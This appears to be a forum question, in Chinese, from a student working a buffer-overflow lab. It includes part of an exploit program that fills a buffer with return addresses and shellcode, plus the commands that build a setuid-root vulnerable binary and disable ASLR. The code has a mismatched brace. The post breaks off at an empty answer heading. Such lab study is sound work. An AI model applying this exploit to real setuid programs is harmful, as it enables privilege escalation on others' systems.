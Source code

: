```
    printf("Address: 0x%x\n",ret);

    ptr = buffer;
    a_ptr = (long *) ptr;

    int i;
    for (i = 0; i < 300;i+=4)
    {
        *(a_ptr++) = ret;
    }

    for(i = 486;i < codeSize + 486;++i)
    {
        buffer[i] = shellcode[i-486];
    {
    buffer[buffSize - 1] = '\0';
//-----------------------END FILL BUFFER-----------------------\\

/* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer,517,1,badfile);
    fclose(badfile);    
} 
```

然后我从命令行执行以下

```
$ su root
$ Password (enter root password)
# gcc -o stack -fno-stack-protector stack.c
# chmod 4755 stack
# exit
$ gcc -o exploit exploit.c
$./exploit
$./stack 
```

然而，虽然它确实会生成一个包含实际数据和外壳的“坏文件”，但该外壳仅具有基本用户权限。之前，我确实在 root 中执行了以下操作：

```
echo 0 > /proc/sys/kernel/randomize_va_space 
```

实验室说我需要在 root 中执行以下操作：

```
sysctl -w kernel.randomize_va_space=0 
```

但是，如果我这样做，那么当我执行“堆栈”时，我会收到“非法指令”错误。有人可以帮我解决这个问题吗？

* * *

## 回答 #1
